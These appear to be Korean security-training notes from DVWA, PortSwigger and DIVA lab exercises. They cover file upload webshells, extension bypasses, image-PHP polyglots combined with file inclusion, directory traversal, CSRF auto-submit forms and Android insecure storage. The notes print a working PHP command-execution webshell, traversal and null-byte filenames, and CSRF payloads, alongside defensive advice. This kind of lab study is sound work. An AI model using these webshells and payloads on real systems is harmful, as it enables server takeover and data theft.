

---
## 1. File Upload 취약점

> 악성 파일(exe 등) 업로드 자체도 위협이지만, 핵심 목적은 **php, asp, jsp 등 서버 사이드 언어로 작성된 파일을 업로드하고 실행시켜 서버 권한을 탈취**하는 것이다.

**Webshell**: 서버 사이드 언어를 이용해 웹 서버의 쉘(명령 실행 권한)을 획득하는 악성 스크립트.

### 1-1. 공격 절차 (기본 흐름)

1. 웹쉘 파일 업로드
2. 업로드된 파일의 저장 경로 파악
3. 해당 URL에 접속하여 파일 실행 → 쉘 획득

### 1-2. Content-Type 변조를 통한 필터 우회

업로드 시 클라이언트가 보내는 `Content-Type` 헤더를 서버가 신뢰하는 경우, 이를 조작해 필터를 통과시킬 수 있다.


```http
-- 원본
Content-Type: application/octet-stream

-- 변조 (이미지로 위장)
Content-Type: image/gif
```


webshell 파일 올릴 때
```php
Content-Type: application/octet-stream
-> Content-Type: image/gif 변경
```

---

### 1-3. 실습 시나리오 정리

**시나리오 1 — 기본 웹쉘 업로드 및 실행**

- 웹쉘 업로드 후 해당 경로 접속 → 정상 실행 → 쉘 탈취 성공


**시나리오 2 — 실행 권한 문제 (HTTP 403.1) 우회**

- 업로드는 성공했으나 해당 디렉토리에 **실행 권한이 없어 403.1 Forbidden** 발생
- **해결(공격) 방법**: 업로드 경로를 실행 권한이 있는 디렉토리로 변경


```php
filename="../shellw7876.asp"
Content-Type: image/gif
```

이후, 다시 웹 쉘을 실행할 수 있게 된다.
>웹 쉘 탈취가 가능하여 정말 강력한 취약점이다 b.b


**시나리오 3 — 클라이언트 사이드 검증의 한계**

- 업로드 시 alert 형태의 확장자 경고 메시지가 뜨는 구조
- 하지만 이는 **클라이언트(JS) 검증**일 뿐이며, 반드시 **서버 사이드 검증** 요구됨
- 게다가 **블랙리스트 방식**이라 새로운 우회 확장자에 취약


---


### 1-4. 확장자 우회 (File Format Diverse)

서버 사이드 언어별로 실행 가능한 대체 확장자가 존재하여, 특정 확장자만 차단하는 블랙리스트 방식은 쉽게 우회된다.

|서버 언어|우회 가능 확장자|
|---|---|
|ASP|`.cer`, `.cdx`, `.asa`, `.cds`|
|PHP|`.php3`, `.php4`, `.php5`, `.html`, `.htm`, `.phtml`, `.inc`|
|JSP|`.war`, `.jsf`|
|ASP.NET|`.aspx`, `.asax`, `.ascx`, `.ashx`, `.asmx`, `.axd`|


**기타 우회 기법**
```txt
취약점 이용한 우회
 ::$data 
 %00.jpg 
 ;.jpg 
 js%70 
 %2ejsp
 xxx.php.kr
 webshell.php::$data
 webshell.php%00.jpg
 webshell.jsp
```

>**핵심 문제점**: 필터링이 블랙리스트 기반이면 언제나 나열되지 않은 확장자/인코딩으로 우회 가능. → **화이트리스트 방식**으로 허용 확장자만 명시해야 안전.

---

### 1-5. DVWA File Upload 실습 — 웹쉘 업로드 및 명령 실행

**업로드한 웹쉘 코드**


```php
|   |
|---|
|<html>|
|<body>|
|<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">|
|<input type="TEXT" name="cmd" autofocus id="cmd" size="80">|
|<input type="SUBMIT" value="Execute">|
|</form>|
|<pre>|
|<?php|
|if(isset($_GET['cmd']))|
|{|
|system($_GET['cmd'] . ' 2>&1');|
|}|
|?>|
|</pre>|
|</body>|
|</html>|
```


업로드 결과 확인
```bash
[user@localhost ~]$ ls -al /var/www/html/dvwa/hackable/uploads/webshell.php

```

→ `/dvwa/hackable/uploads/webshell.php` 접속 시 ** 웹 쉘 탈취** 성공


*DVWA High 레벨 소스코드*

```php
<?php  
  
if( isset( $_POST[ 'Upload' ] ) ) {    // Where are we going to be writing to?    $target_path  = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/";    $target_path .= basename( $_FILES[ 'uploaded' ][ 'name' ] );    // File information    $uploaded_name = $_FILES[ 'uploaded' ][ 'name' ];    $uploaded_ext  = substr( $uploaded_name, strrpos( $uploaded_name, '.' ) + 1);    $uploaded_size = $_FILES[ 'uploaded' ][ 'size' ];    $uploaded_tmp  = $_FILES[ 'uploaded' ][ 'tmp_name' ];    // Is it an image?    if( ( strtolower( $uploaded_ext ) == "jpg" || strtolower( $uploaded_ext ) == "jpeg" || strtolower( $uploaded_ext ) == "png" ) &&  
        ( $uploaded_size < 100000 ) &&        getimagesize( $uploaded_tmp ) ) {
```

위 코드의 정리를 하자면 아래와 같다.

**High 레벨의 3가지 필터**

1. 확장자 제한 (jpg/jpeg/png)
2. 파일 크기 제한 (100KB 미만)
3. `getimagesize()`로 실제 이미지 여부 검증


**그럼에도 남은 취약점**

1. 업로드 경로가 **web root 하위**에 위치 → 접근 시 스크립트 실행 가능한 위치
2. 이미지 파일이라 해서 내부에 악성 PHP 코드가 없다는 보장은 없음 (이미지 파일 포맷은 메타데이터/EXIF 등에 임의 데이터 삽입 가능)

---

### 1-6. 이미지 위장 웹쉘 (Image + PHP Polyglot) 공격 시나리오

1. 정상 jpeg 파일을 Rocky Linux 서버로 복사
2. 파일 끝에 PHP 악성 코드 삽입


```bash
   echo '<?php system($_GET["cmd"]); ?>' >> shell.jpg
```

→ `getimagesize()` 검증은 통과(이미지 헤더는 정상)하지만 파일 내부에 PHP 코드 포함 3. 해당 `shell.jpg` 업로드 (확장자 필터 통과) 4. **File Inclusion 취약점과 결합**하여 이미지 파일을 PHP로 실행

```
   dvwa/vulnerabilities/fi/?page=../../hackable/uploads/shell.jpg&cmd=id
```

→ `include()`가 파일 내용을 PHP로 해석 → 내부에 숨겨진 `system($_GET["cmd"])` 실행 → `id` 명령 결과 획득


> **Upload + File Inclusion 결합 공격**으로, 확장자·이미지 검증을 모두 통과한 파일도 실행 가능한 위치에서 include되면 코드 실행으로 이어진다.


**실행 결과**


> 위 공격 대응 방안으로 upload되는 이미지 자체를 new Image() 생성자로 호출하여 악성 코드가 내재된 이미지를 쓰지 않는 방식으로 대처 가능


---

## 2. File Download 취약점

파일 업로드 취약점은 화이트리스트 방식의 확장자 필터링 및 업로드 되는 url 지점 실행권한을 제한한다. `../` 필터링하여 업로드된 파일의 파일 포맷실제 확인하며 업로드된 파일을 다시 재변환하는 공격이다.


**방어 관점에서의 안전한 파일 저장 원칙**
- web root 경로에 파일을 저장하지 않고 시스템에 웹과 상관없는 다른 경로에 저장하는 `/var/www/html/dvwa`가 아닌 `/sav/file` 경로에 저장을 하는 방법이다.
- 혹은 업로드 기능을 차단하는 방식이다.
- 접근이 제한된 파일을 다운받는 취약점이다.


### 공격 원리 — Directory Traversal

- `../../../` 형태로 상위 디렉토리 이동을 반복해 루트 디렉토리로 이동한 뒤, 시스템 파일 경로를 지정하여 다운로드
- 예: BurpSuite로 `GET` 요청의 파일 파라미터를 조작해 `winnit/win.ini` 같은 시스템 파일 다운로드 유도


**실습 예제**

http

```http
../../../../down.asp
```

→ 상위 디렉토리 경로 조작을 통해 원래 접근 권한이 없던 `down.asp`(서버 사이드 스크립트 원본 소스코드)를 다운로드 및 소스 탈취 성공


아래는 서버 사이드 스크립트의 원본 코드를 탈취했다!


[down.asp](../참고%20자료/기타%20참고%20파일/down.asp)

---

## 3. CSRF (Cross-Site Request Forgery)

> 사용자가 자신의 의지와 무관하게, 공격자가 의도한 요청(수정/삭제/등록 등)을 특정 웹사이트에 전송하게 만드는 공격.


### 공격 목적 예시

- 게시글 작성/삭제
- 개인정보 수정
- 금전 인출/결제
- 회원 탈퇴
- 권한(등급) 상승


### 공격 성립 조건

- 대상 사이트에 *불충분한 인증/검증 취약점*(CSRF 토큰 부재 등)이 존재해야 함
- `피싱 또는 XSS와 결합하여 피해자가 모르게 요청을 강제로 발생시킴`


### 3-1. GET 방식 공격 (단순 URL 삽입형)

요청이 GET으로만 처리되는 기능은 ``, `<video>`, `<iframe>` 태그의 `src` 속성만으로도 공격이 성립한다.


```html

<video src="http://target.com/target?param=1">
<iframe src="http://target.com/target?param=1"></iframe>
```

### 3-2. POST 방식 공격 (Auto-submit Form)

POST 요청이 필요한 기능은 자동 제출 폼으로 위조한다.

**예시 1 — 게시글 삭제 요청 위조**


```html
<body onload="document.forms[0].submit()">
<form action="http://TARGET/board/write_.html" method="POST">
  <input type="hidden" name="p_pkid" value="174"/>
  <input type="hidden" name="p_mid" value="1"/>
  <input type="hidden" name="p_code" value="del"/>
  <input type="hidden" name="p_pwd_code" value=""/>
  <input type="hidden" name="p_rturl" value="L2JvYXJkL2xpc3QuaHRtbD9wx21pZD0x"/>
  <input type="submit" value="View my pictures"/>
</form>
```

**예시 2 — 회원정보 변경 요청 위조 (숨김 iframe 활용, 추천 방식)**


```html
<iframe style="display:none" name="csrf-frame"></iframe>
<form method="POST" action="TARGET/member/mem_modify_ok.asp" target="csrf-frame" id="csrf-form">
  <input type="hidden" name="pwd" value="1234"/>
  <input type="hidden" name="name" value="helpme"/>
  <input type="hidden" name="email" value="tayo@tayo.com"/>
</form>
<script>document.getElementById("csrf-form").submit()</script>
```

> 두 번째 방식이 더 은밀함: 결과가 숨겨진 iframe에 표시되어 피해자가 페이지 이동/변화를 인지하지 못함.

```php

<video src= "http://target.com/target?param=1">
<iframe src= "http://target.com/target?param=1">

```

>Post 방식으로 WEB 요청하는 공격(Autoposition Form방식)


**Medium Level CSRF Source**

```php
<?php  
  
if( isset( $_GET[ 'Change' ] ) ) {    // Checks to see where the request came from    if( stripos( $_SERVER[ 'HTTP_REFERER' ] ,$_SERVER[ 'SERVER_NAME' ]) !== false ) {        // Get input        $pass_new  = $_GET[ 'password_new' ];        $pass_conf = $_GET[ 'password_conf' ];
```

> 내부 서버로 접근하는지 외부 서버에서 접근하는지 비교하여 true, false로 HTTP Request 값을 체크


[CSRF 풀이](../참고%20자료/기타%20참고%20파일/csrf%20풀이.txt)


---

SSRF

- Basic SSRF
	- 
- Blind SSRF
	-  서버가 악의적인 요청을 수행하지만 그 결과 값을 클라이언트 화면에 전혀 반환하지 않는 형태이다. 이는 응답이 보이지 않아 직관적인 공격 성공 여부 파악이 어려우나, OOB(out-of-bound) ..에 대해 더 못 쓰고 있었다..


문제
https://portswigger.net/web-security/ssrf/lab-basic-ssrf-against-localhost


---


### App / Emulator 인증 유효화


1. Proxy listener 프록시 외부 접근 가능하기 위해 설정 변경


2. MuMu emulator 옵션 변경


burp 인증서 검증 시 유효하지 않음에 통신이 불가능한 상황이 있다. 스마트폰, 에뮬레이터를 돌리기 위해서는 burp 인증서를 유효화하기 위해서 system등급으로 설치하기 위해서 다음과 같이 burp 인증서를 설치하는 것이다. 이때 필요한 것이 `Root 권한 활성화`와 `시스템 디스크 쓰기 가능`를 사용할 수 있다. linux 상의 `system, /etc` 폴더 내 시스템 디스크 쓰기가 가능해진다.




3. 설정한 HTTP 트래픽이 이제 window burp suite에 잡히게 된다.


4. cert 인증서를 저장 
- [9a5ba575.0](file:///C:%5CUsers%5C우하민%5CDesktop%5Cexport%5C9a5ba575.0)


5. mobaxterm 터미널 실행하여 아래 명령어 입력
```bash
openssl x509 -inform DER -in 1.cer -out 1.pem
openssl x509 -inform PEM -subject_hash_old -in 1.pem
mv 1.pem 9a5ba575.0

```

6. 해당 파일 설치된 점 확인
- [9a5ba575.0](file:///C:%5CUsers%5C우하민%5CDesktop%5Cexport%5C9a5ba575.0)

7. 터미널 실행 후 
```bash
adb device
adb root
adb shell
whoami  --root 출력되어야함                             mount -o rw,remount /system  --읽기 쓰기 권한 변경
exit
adb push 9a5ba575.0 /system/etc/security/cacerts/
adb shell "chmod 644 /system/etc/security/cacerts/9a5ba575.0"
adb shell "ls -l /system/etc/security/cacerts/9a5ba575.0"
```

8. emulator reboot


---


## Diva Application


[참고 파일](../참고%20자료/기타%20참고%20파일/DivaApplication.apk)


**사전 지식**

1. Shared Preferences
	1. 간단한 값을 저장하는데 많이 사용되는 저장소
	2. `/data/data/APK_name/share_prefs`
	3. 키 값 형태로 작은 데이터가 xml 파일 형태로 저장
2. databses:
	1. `/data/data/APK_name/databases/`
	2. SQlite 등 DB 파일이 저장되는 경로
3. Files:
	1. 앱에서 생성한 일반 파일이 저장되는 디렉토리
	2. `/data/data/APK_name/files`
4. Cache:
	1. 앱에서 만든 임시 파일 저장 디렉토리
	2. `/data/data/APK_name/cache`
5. 외부 저장소
	1. 외부 저장소 앱 전용 디렉토리
	2. `/storage/emulated/0/android/data/APK_name/files/`
6. 외부 저장소 공용 영역
	1. `/sdcard/storage/emulated/0/`


### 실습


**문제 1. Insecure Data Storage**

- 취약한 로깅 취약점
	- checkout 버튼 실행 시 credit number -> 개인 정보가 log에 고스란히 나열됨
- 1번 문제는 실제 코드를 SharedPrefences에 저장이 된다는 것을 확인할 수 있다.

```bash

Step 1. 패키지 목록 확인
pm list packages
> package:jakhar.aseem.diva  

Step 2. 패키지 목록 내 값이 xml에 저장된 것을 확인했으니 디렉토리로 서칭을 이어서 하자
a15x:/  cd /data/data/jakhar.aseem.diva/shared_prefs                                    a15x:/data/data/jakhar.aseem.diva/shared_prefs ls                                      > jakhar.aseem.diva_preferences.xml                                                        

Step 3. xml 파일 들여다보면 ID/비밀번호가 평문 저장되어 취약한 점 확인
cat jakhar.assem.diva_perferences.xml
<?xml version='1.0' encoding='utf-8' standalone='yes' ?>                                                                <map>                                                                                                                       <string name="password">1234</string>                                                                                   <string name="user">1234</string>                                                                                   </map> 
 
```


**문제 2. Insecure Data Storage - Part 2**


```bash
Step 1. 위 문제 1에서 경로는 찾았기 때문에 동일하게 점검을 하면 된다.

a15x:/ cd /data/data/jakhar.aseem.diva/databases/                                          a15x:/data/data/jakhar.aseem.diva/databases  ls                                             divanotes.db  divanotes.db-journal  ids2  ids2-journal  sqli  sqli-journal                   a15x:/data/data/jakhar.aseem.diva/databases 
 ls -l                                          total 52                                                                                     -rw-rw---- 1 u0_a52 u0_a52 20480 2026-08-04 14:05 divanotes.db                               -rw-rw---- 1 u0_a52 u0_a52     0 2026-08-04 14:05 divanotes.db-journal                       -rw-rw---- 1 u0_a52 u0_a52 16384 2026-08-04 14:30 ids2                                       -rw-rw---- 1 u0_a52 u0_a52     0 2026-08-04 14:30 ids2-journal                               -rw-rw---- 1 u0_a52 u0_a52 16384 2026-08-04 14:11 sqli                                       -rw-rw---- 1 u0_a52 u0_a52     0 2026-08-04 14:11 sqli-journal
    
    
Step 2. 관계형 DB sqlite3을 사용
sqlite3 ids2                 
SQLite version 3.32.2 2021-07-12 15:00:17                                  

Step 3. DB Table 확인
sqlite> .table                                          android_metadata  myuser   


Step 4. myuser Table 내 Id/passwd 평문 저장 확인
sqlite> select * from myuser;                           angel|1004

```


**문제 3. Insecure Data Storage - Part 3**


-  saveCredentials() 메서드 내 File ddir 생성자를 호출하여 edittext의 usr, pwd 값이 File 저장 디렉토리 아래로 저장되고 있다고 한다. 게다가, ddir 폴더라고 명시되어 이를 바탕으로 추적을 시작하면 된다. 